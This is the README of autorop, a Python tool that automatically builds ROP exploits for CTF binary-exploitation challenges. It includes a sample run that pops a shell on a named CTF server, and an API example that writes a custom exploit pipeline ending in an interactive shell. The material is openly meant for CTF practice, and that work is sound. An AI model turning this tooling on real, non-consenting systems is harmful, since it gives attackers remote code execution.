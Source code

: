 autorop
=======

|docs| |Test status| |MIT license|

Automated solver of classic CTF pwn challenges, with flexibility in mind.

Official documentation can be found at `autorop.readthedocs.io <https://autorop.readthedocs.io>`_.

Disclaimer
----------

Do not use this software for illegal purposes. This software is intended to be used in legal Capture the Flag competitions only.

Command line
------------

.. code-block:: text

    $ autorop
    Usage: autorop BINARY [HOST PORT]

.. code-block:: text

    $ autorop tests/bamboofox/ret2libc bamboofox.cs.nctu.edu.tw 11002
    [+] Opening connection to bamboofox.cs.nctu.edu.tw on port 11002: Done
    [*] '/data/Projects/autorop/tests/bamboofox/ret2libc'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [*] Pipeline [1/4]: corefile
    ...
    [*] Pipeline [4/4]: system_binsh
    [*] Loaded 151 cached gadgets for '.autorop.libc'
    [*] 0x0000:       0xf7e09e70 system(0xf7f29fcc)
        0x0004:       0xf7df7bfa <adjust @0xc> add esp, 4; ret
        0x0008:       0xf7f29fcc arg0
        0x000c:        0x80484ed main()
    [*] Switching to interactive mode
    Hello!
    The address of "/bin/sh" is 0x804a02c
    The address of function "puts" is 0xf7e2eda0
    $ wc -c /home/ctf/flag
    57 /home/ctf/flag


API
---

Importing autorop automatically does a ``from pwn import *``, so you can use all of `pwntools' goodies <https://docs.pwntools.com/en/latest/>`_.

Central to autorop's design is the `pipeline <https://en.wikipedia.org/wiki/Pipeline_(software)>`_. Most functions take in a ``PwnState``, and pass it on to the next function with some attributes changed. ``pipeline`` copies\* the ``PwnState`` between each function so mutations are safe. This allows great simplicity and flexibility.

See how the below example neatly manages to "downgrade" the problem from something unique, to something generic that the ``classic`` pipeline can handle.

.. code-block:: python

    from autorop import *

    BIN = "./tests/tjctf_2020/stop"


    def send_letter_first(t, data):
        # the binary expects us to choose a letter first, before it takes input unsafely
        t.sendline("A")
        # avoid messing up output by cleaning it of whatever "A" did
        t.clean(constants.CLEAN_TIME)
        # send actual payload
        t.sendline(data)
        # clean output so generic output gets out of the way
        t.recvuntil(b"Sorry, we don't have that category yet\n")


    # in this case a function is overkill,
    # but demonstrates the flexibility of custom pipelines
    def set_overwriter(state):
        state.overwriter = send_letter_first
        return state


    # create a starting state
    s = PwnState(BIN, process(BIN))

    # build a custom pipeline - base classic pipeline, with printf for leaking
    pipeline = Pipeline(set_overwriter, turnkey.classic(leak=leak.printf))
    result = pipeline(s)

    # switch to interactive shell which we got via the exploit
    result.target.interactive()

\* **Note**: Although most of the attributes are deep-copied, ``target`` and ``_elf`` is not.

.. |docs| image:: https://readthedocs.org/projects/autorop/badge/
    :target: https://autorop.readthedocs.io

.. |Test status| image:: https://github.com/mariuszskon/autorop/workflows/autorop%20test/badge.svg
    :target: https://github.com/mariuszskon/autorop/actions?query=workflow%3A%22autorop+test%22

.. |MIT license| image:: https://img.shields.io/badge/license-MIT-blue.svg
    :target: https://github.com/mariuszskon/autorop/blob/master/LICENSE

Install
-------

1. Install `libc-database <https://github.com/niklasb/libc-database>`_ into ``~/.libc-database`` (or your own location then edit ``state.libc_database_path``).
2. Install autorop itself. You might want to be in your `python virtual environment <https://docs.python.org/3/tutorial/venv.html>`_. After cloning, install with pip:

.. code-block:: text

    $ git clone https://github.com/mariuszskon/autorop && cd autorop && pip install .

3. Make sure corefiles are enabled and are plainly written to the right directory:

.. code-block:: text

    # sysctl -w kernel.core_pattern=core.%p

4. All done!
